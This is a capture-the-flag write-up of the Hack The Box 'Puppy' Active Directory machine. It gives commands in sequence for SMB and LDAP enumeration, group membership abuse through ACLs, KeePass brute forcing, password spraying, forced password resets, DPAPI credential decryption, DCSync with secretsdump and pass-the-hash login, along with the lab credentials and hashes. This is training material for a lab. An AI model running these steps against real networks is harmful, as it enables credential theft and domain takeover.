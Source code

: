 ```yaml
---
title: Puppy - HTB
date: 2025-06-8 14:00:00 +0200
categories: "[Hack The Box, Windows]"
tags: [AD , priv-escalation , DPAPI-Dump , DCSYNC]
toc: true
comments: true
image: ./assets/img/attachments/puppy-24.png
imageNameKey: puppy
---
```


Hey everyone! It’s me again—although it’s only been a month since my last post, today I’m diving into how I pwned the Puppy machine. I really enjoyed solving this one and learned so much along the way. This 6/1000

## Port Scanning and Enumeration
I ran nmap scan for the top 1000 port 
```bash
nmap -sS 10.10.11.70 -F -T4 -sV -O

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 18:44 EDT
Nmap scan report for 10.10.11.70
Host is up (0.46s latency).
Not shown: 92 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-31 05:21:30Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

```
It's obvious that we are dealing with AD environment! i added the domain name beside its ip in /etc/hosts and will start digging in smb shares
```bash
crackmapexec smb puppy.htb -u levi.james -p 'KingofAkron2025!' --shares

SMB         puppy.htb       445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         puppy.htb       445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         puppy.htb       445    DC               [+] Enumerated shares
SMB         puppy.htb       445    DC               Share           Permissions     Remark
SMB         puppy.htb       445    DC               -----           -----------     ------
SMB         puppy.htb       445    DC               ADMIN$                          Remote Admin
SMB         puppy.htb       445    DC               C$                              Default share
SMB         puppy.htb       445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         puppy.htb       445    DC               IPC$            READ            Remote IPC
SMB         puppy.htb       445    DC               NETLOGON        READ            Logon server share 
SMB         puppy.htb       445    DC               SYSVOL          READ            Logon server share 

```

DEV looks interesting, I will use smbclient to enumerate this shares
```bash
smbclient //puppy.htb/DEV -U 'levi.james%KingofAkron2025!'
```

But access was denied, i couldn't list or view anything, next will try ldap enumeration
```bash
ldapdomaindump ldap://10.10.11.70 -u "puppy.htb\levi.james" -p 'KingofAkron2025!'
```

From here i got valid usernames and groups, tried AS-REP Roasting but didn't work, and since i couldn't get a GUI access from the credentials I have, I will enumerate this domain using bloodhound.py

```bash
bloodhound-python -u levi.james -p 'KingofAkron2025!' -d puppy.htb -dc DC.puppy.htb -c All --zip -ns 10.10.11.70
```
## Abusing ACL's
Then adding the zip file to Bloodhound GUI:
![w](/assets/img/attachments/puppy.png)

We got generic write on developers group!, so now we can add ourselves to this group
From ldap files that we got before, i will levis.james exact info 
![w](/assets/img/attachments/puppy-1.png)

and will create a .ldif file to modify ldap with it
```ldap
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```

Then
```bash
ldapmodify -x -H ldap://10.10.11.70 -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -f mod.ldif
```

lets verify:
![w](/assets/img/attachments/puppy-2.png)

Now do u remember smb shares (DEV) that we couldn't list?
```bash
smbclient //puppy.htb/DEV -U 'levi.james%KingofAkron2025!'

> prompt OFF
> recurse ON
> mget *
```

 recovery.kdbx looks really catchy!
 But it needs password, I tried to search on a hardcoded password in `KeePassXC-2.7.9-Win64.msi` but with no look, so the next step is to brute force the pass. John didnt work (gave an error of file not supported) 
 We need to find a tool to crack a v 4 of kdbx file
 [This tool can do it!](https://github.com/r3nt0n/keepass4brute/blob/master/keepass4brute.sh)
 
```bash
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```
![w](/assets/img/attachments/puppy-3.png)
We got the password!

![w](/assets/img/attachments/puppy-4.png)
And now we have those users' password, let's find out which is valid!
We will be using the list of valid usernames that we used at AS-REP roasting attack at the beginning! + Password spraying using the passwords in this file

```bash
nxc smb 10.10.11.70 -u usernames.txt -p pass.txt
```
![w](/assets/img/attachments/puppy-5.png)
We got a valid username and password! However, I couldn't get a GUI with this user either. Let's check Bloodhound.

![w](/assets/img/attachments/puppy-6.png)
I'm in a group that have generic all on Adam Silver account! now I will try to change this user password, this part was really tricky!
## Modifying password externally
```bash
impacket-changepasswd puppy.htb/adam.silver@10.10.11.70 -newpass 'newP@ssw0rd123456!' -altuser puppy.htb/ant.edwards -altpass 'Antman2025!' -reset
```
Make sure the new password u set is acceptable by password policy (no weak password).
![w](/assets/img/attachments/puppy-7.png)
I couldn't log in after that. After a lot of searching, I found out that the account might have been **disabled by the DC** since we changed the password using **Impacket**.
```bash
rpcclient -U 'puppy.htb/ant.edwards%Antman2025!' 10.10.11.70 
> queryuser adam.silver
```

![w](/assets/img/attachments/puppy-8.png)
Now we need to reenable it
```bash
ldapmodify -x -D "ant.edwards@puppy.htb" -w 'Antman2025!' -H ldap://10.10.11.70
```
```ldif
dn: CN=ADAM D. SILVER,CN=Users,DC=puppy,DC=htb
changetype: modify
replace: userAccountControl
userAccountControl: 16
```
![w](/assets/img/attachments/puppy-9.png)

And to verify it worked, will run rpcclient again (or Ldapsearch)
![w](/assets/img/attachments/puppy-10.png)

And finally we have terminal access!
```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p 'newP@ssw0rd123456!'  
```
## Priv Escalation
![w](/assets/img/attachments/puppy-11.png)

I used sharphound on this victim
```powershell
sharphound.exe -c ALL
```
But got nothing new, i run winpeas but found nothing intrested too.
After some digging, there is a folder named bakup and root directory

![w](/assets/img/attachments/puppy-12.png)

i downloaded this file 
![w](/assets/img/attachments/puppy-13.png)
## DPAPI Dump
And found in it this user password, lets test if its valid or not
![w](/assets/img/attachments/puppy-14.png)

I think its a hint for us, a DPAPI blobs may be found under `C:\Users\<username>\AppData\Roaming\Microsoft\Protect`, `APPDATA\Microsoft\Credentials\` & `LOCALAPPDATA\Microsoft\Vault\` so lets check

![w](/assets/img/attachments/puppy-15.png)
![w](/assets/img/attachments/puppy-16.png)
Found those hidden files, but since they are hidden we won't be able to downlaod them using download command
### Downloading hidden files
First we must
```powershell
attrib -h -s C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
```
and repeat for alll.

![w](/assets/img/attachments/puppy-17.png)
Then download
Now we have the key ingredients for a DPAPI master key decryption
- C8D69EBE9A43E9DEBF6B5FBD48B521B9 is blob.dpc
- 556a2412-1275-4ccf-b721-e6a0b4f90407 is the master key 
- S-1-5-21-1487982659-1829050783-2281216199-1107 SID

**First step:** is to decrypt the master key 
```bash
dpapi.py masterkey -file mkfile -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```
![w](/assets/img/attachments/puppy-18.png)

Now we use the decrypted key to get blob.dpc content
```bash
dpapi.py credential -file blob.dpc -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```
![w](/assets/img/attachments/puppy-19.png)
## DCSync Attack
Great! we got the administrator's password! he was in domain admins group if u remember.
![w](/assets/img/attachments/puppy-20.png)

We can dump all user hashes!
**There's two methods:**
1- downloading folder containing dumped Registry Hives via PowerShell
2- or using secretdump.py with the valid credentials we got!

```bash
secretsdump.py 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!'@10.10.11.70
```
![w](/assets/img/attachments/puppy-21.png)
Then we connect using evil-winrm
```bash
evil-winrm -i 10.10.11.70 -u Administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b
```
![w](/assets/img/attachments/puppy-22.png)
![w](/assets/img/attachments/puppy-23.png)
and Done! see u later 
